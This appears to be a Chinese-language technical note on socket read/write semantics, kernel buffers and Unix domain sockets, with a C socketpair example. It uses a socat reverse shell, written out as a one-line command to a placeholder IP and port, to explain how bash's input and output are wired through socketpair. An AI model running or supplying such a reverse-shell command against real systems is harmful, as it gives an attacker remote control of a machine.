


## 套接字与反弹shell

> unix域套接字是一种IPC方法，实质上还是socket，只不过是用于本机的socket类型。

这儿主要来谈一谈socket的数据传输，也就是`read/write`的实质。

> 通信就是让一个数据在两个进程间传输

```
int read(int handle, void *buf, int nbyte);
int write(int handle, void *buf, int nbyte);
```
这儿需要搞清楚的是这儿的`*buf`都是应用层`buffer`，而一个`socket`是有两个`内核层buffer的`，也就是`recv_buffer`和`send_buffer`，而`read`和`write`的成功条件就仅仅是从`内核层buffer`中读取/写入数据而已，而并非是发送。

至于发送数据，对于网络I/O来说那是TCP/UDP的事情，系统调用层并不提供任何保证，然后在要发送时，再将数据从`内核层buffer`中拷贝到该去的地方，当满足某些条件时，再将`buffer`中的数据清除
> 例如已经发送的网络的数据，直到收到对方发送的ACK后，才从`buffer`中清除这一部分数据


## 反弹shell
```
$socat EXEC:bash TCP:IP:port
```
这种形式的反弹shell与NC类似，但是又不一样，因为`socat`与`bash`之间是父子关系，而通信机制便是`unix域套接字`。

使用的函数实现应该是`socketpair`

## unix域套接字
进程间通信的socket就是`unix domain socket`，与网络socket相同，只不过通过把通信域改成了`AF_UNIX`，而传输的数据依旧可以选择成`SOCK_STREAM(流数据)`或者是`SOCK_DGRAM(数据报)`
`socketpair()`可以算作是对`socket`的封装，他创建了一对套接字，但是因为是无命名套接字，所以只有相关进程才能使用
```
int socketpair(int domain, int type, int protocol, int sockfd[2]);
```
父进程使用`sockfd[0]`，子进程就使用`sockfd[1]`，反之亦然。

父进程通过`write`将数据写入`sockfd[0]`的`send_buffer`中，然后`kernel`将`sockfd[0]`的`send_buffer`中的数据拷贝到`sockfd[1]`的`recv_buffer`中，子进程再通过`read`从`sockfd[1]`的`recv_buffer`中读取。读取亦然。
示例代码:
```
#include<stdio.h>  
#include<string.h>  
#include<sys/types.h>  
#include<stdlib.h>  
#include<unistd.h>  
#include<sys/socket.h>  
  
void print(int n)
{
    printf("%d",n);
}
int main()     
{  
    int sv[2]; //一对无名的套接字描述符  
    if(socketpair(PF_LOCAL,SOCK_STREAM,0,sv) < 0) //成功返回零 失败返回-1  
    {  
    perror("socketpair");  
    return 0;  
    }  
    pid_t id = fork(); //fork出子进程
    if(id == 0)               
    {
            char buf[1024];  
            close(sv[1]);
            const char* msg = "Socat输出\n"; 
            write(sv[0],msg,strlen(msg));
            ssize_t _s = read(sv[0],buf,sizeof(buf)-1);
            if(_s > 0)  
            {  
            buf[_s] = '\0';  
            printf("Socat接收的输入 : %s\n",buf);  
            }
    }  
    else   
    {
            close(sv[0]);//关闭写端口
            char buf[1024];  
            ssize_t _s = read(sv[1],buf,sizeof(buf)-1);
            if(_s > 0)  
            {  
            buf[_s] = '\0';  
            printf("bash接收的输入 : %s\n",buf);  
            }
            sleep(1);
            const char* msg = "bash执行结果\n"; 
            write(sv[1],msg,strlen(msg));   
    }  
    return 0;  
}  
```
### 反弹shell解释
重新回到刚才的反弹shell，`lsof`看到的东西是这样的：

这种反弹shell就是`socat`创建了`bash`子进程，并且将自己的`0:标准输入`，`1:标准输出`重定向到了`socket[1]`的`fd`上，然后`socat`则通过`5u`就是`socket[0]`的`fd`，同时`6u`是一个`网络socket`的fd，从而达成了一个外部输入控制`bash`的流程